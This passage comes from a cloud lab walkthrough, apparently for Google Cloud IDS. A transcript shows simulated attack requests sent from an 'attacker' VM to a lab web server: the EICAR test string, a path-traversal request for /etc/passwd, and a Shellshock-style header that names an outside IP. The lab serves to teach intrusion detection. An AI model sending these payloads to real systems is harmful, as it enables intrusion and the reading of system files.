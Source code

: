 ```sh
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
student-01-41d0c1af2373@attacker:~$ curl http://192.168.10.20/eicar.file
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
student-01-41d0c1af2373@attacker:~$ curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.14.2</center>
</body>
</html>
student-01-41d0c1af2373@attacker:~$ curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.14.2</center>
</body>
</html>
student-01-41d0c1af2373@attacker:~$ exit
logout
Connection to compute.1860123581354653234 closed.
student_01_41d0c1af2373@cloudshell:~ (qwiklabs-gcp-02-05e37a194649)$ 
```



## Review threats detected by Cloud IDS

In this task, you review the various attack traffic captured by the  Cloud IDS in the Cloud console. The captured attack traffic profiles  provide details of each threat.

1. In the Google Cloud console, in the **Navigation menu** (![Navigation menu](https://cdn.qwiklabs.com/tkgw1TDgj4Q%2BYKQUW4jUFd0O5OEKlUMBRYbhlCrF0WY%3D)), click **Network Security > Cloud IDS**.
2. Click the **Threats** tab.
